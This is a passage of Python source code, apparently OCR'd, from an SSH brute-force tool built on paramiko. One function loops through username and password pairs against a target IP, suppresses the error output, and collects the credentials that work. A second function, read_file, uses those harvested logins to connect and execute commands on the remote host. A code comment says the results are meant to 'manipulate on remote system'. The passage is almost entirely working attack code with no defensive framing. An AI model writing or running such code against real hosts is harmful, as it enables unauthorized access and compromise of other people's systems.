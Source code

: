             except socket.timeout:
                pass
                # this is when host is unreachable
                #print(f"[!] Host: {targetIP} is unreachable, timed out.")
            except paramiko.AuthenticationException:
                pass
                #print(f"[!] Invalid credentials for {user}:{passwd}")
            except paramiko.SSHException:
                pass
                #print(f"[*] Quota exceeded, retrying with delay...")
                # sleep for a minute
                time.sleep(3)
            else:
                # connection was established successfully
                #print(f"[+] Found combo for SSH:\n\tHOSTNAME: {targetIP}\n\tUSERNAME: {user}\n\tPASSWORD: {passwd}")
                user_pass.append([user, passwd])
                sshserver.close()
                break


    SSH_credentials[targetIP] = user_pass
    return SSH_credentials # this dict can be used in another function to log in and manipulate on remote system


def read_file(slownik: dict, target_ip):
    autenticated = False
    #slownik = brute_force_SSH(target_ip)
    sshserver = paramiko.SSHClient()
    sshserver.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    sshserver.load_system_host_keys()
    for ip_adr, user_list in slownik.items():
        for user in user_list:
            try:
                sshserver = paramiko.SSHClient()
                # add to know hosts
                sshserver.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                sshserver.load_system_host_keys()
                sshserver.connect(hostname=target_ip, username=user[0], password=user[1], timeout=3)
                autenticated = True
            except socket.timeout:
                pass
                # this is when host is unreachable
                #print(f"[!] Host: {targetIP} is unreachable, timed out.")
            except paramiko.AuthenticationException:
                pass
                #print(f"[!] Invalid credentials for {user}:{passwd}")
            except paramiko.SSHException:
                pass
                #print(f"[*] Quota exceeded, retrying with delay...")
                # sleep for a minute
                time.sleep(3)
            else:
                command = "ls -a"
                stdin, stdout, stderr = sshserver.exec_command(command)